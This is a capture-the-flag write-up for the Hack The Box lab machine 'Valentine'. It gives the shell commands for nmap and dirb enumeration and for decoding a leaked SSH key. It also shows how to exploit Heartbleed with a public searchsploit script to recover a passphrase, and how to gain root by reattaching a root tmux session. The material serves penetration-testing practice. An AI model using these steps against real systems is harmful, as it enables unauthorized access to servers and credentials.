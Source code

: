 # Valentine
[![Valentine](https://www.hackthebox.eu/storage/avatars/61b3b6a4382f58a804e221062ced0bfb.png)](https://www.hackthebox.eu/home/machines/profile/127)

## Initial Foothold
From nmap we get ports 80, 22 and 443.
```sh
$ nmap -A -v 10.10.10.79
```
Then we run ***dirb*** on port 80.
```sh
$ dirb http://10.10.10.79
```
From dirb we get ***/dev*** directory in which there is ***hype_key.txt***. The content is encoded hex text, which we decode in plain text. After removing space using sed command, we get ssh key. Now we need to find the passphrase. Then we check if the HTTPS web service (ssl) is vulnerable to heartbleed with help of nmap script.
```sh
$  nmap –p 443 --script ssl-heartbleed 10.10.10.79
State: VULNERABLE
Risk factor: High
```
The service is vulnerable to heartbleed.
```sh
$ searchsploit heartbleed
exploits/multiple/remote/32764.py
```
Now lets exploit it.
```sh
$ python 32764.py 10.10.10.79
```
As we can see there is a buffer overflow. After some efforts we get a string in base64.
```sh
$ echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 –d
```
After getting the string in plain text, we are able to connect via ssh and use it as passphrase.
```sh
$ ssh –i key hype@10.10.10.79
$ cat /home/hype/Desktop/user.txt
```
We got user.

## Privesc
If we take a look in bash history, there is tmux session with root privileges. Lets open it again and take the root flag.
```sh
$ tmux –S /.devs/dev_sess
$ cat /root/root.txt
```
We got root!

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Valentine](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)

